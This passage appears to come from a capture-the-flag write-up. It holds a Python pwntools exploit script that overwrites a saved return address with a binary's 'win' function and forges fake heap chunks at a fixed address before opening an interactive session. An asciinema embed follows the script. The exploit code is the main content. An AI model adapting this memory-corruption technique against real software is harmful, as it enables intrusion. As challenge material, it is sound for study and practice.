 ```python

win_addr = e.symbols["win"]
p.sendlineafter("> ","1")
fake_chunk = 0x601050
p.sendline(p64(win_addr) + p64(fake_chunk + 0x8))
print("[+] Issuing saved $rip overwrite with the win function's address...")
sleep(1)

# Fake chunks
print("[+] Done.")
print("[*] Creating first fake heap chunk...")
p.sendlineafter("> ","3")
p.sendlineafter("> ","1")
p.sendline(p64(0x51) + p64(fake_chunk + 0x58))
p.sendlineafter("> ","3")
p.sendlineafter("> ","1")

print("[*] Creating second fake heap chunk...")
sleep(1)
lastch = p64(0x51) + p64(fake_chunk + 0x10)
p.sendline(lastch)
p.sendlineafter("> ", "3")
p.sendlineafter("> ","0")
p.interactive()
```

<script id="asciicast-uhdWIQT6qVnCDo8nbm9YCcKkH" src="https://asciinema.org/a/uhdWIQT6qVnCDo8nbm9YCcKkH.js" async></script>
